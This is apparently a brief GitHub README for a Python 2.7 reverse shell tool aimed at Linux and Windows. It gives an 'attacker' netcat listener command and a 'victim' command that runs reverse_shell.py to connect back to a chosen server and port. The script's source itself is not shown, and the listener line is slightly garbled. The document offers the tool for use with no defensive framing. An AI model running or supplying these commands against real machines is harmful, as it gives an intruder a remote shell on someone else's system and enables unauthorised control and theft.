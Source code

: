 # reverse shell friendly
simple tool to reverse shell using python for Linux & Windows

## Prerequisites

This script requires Python 2.7

##Usage
### atacker

```
mathio@dz nc-vlp port
```

## Victim
```
python2 reverse_shell.py server port linux/windows
```
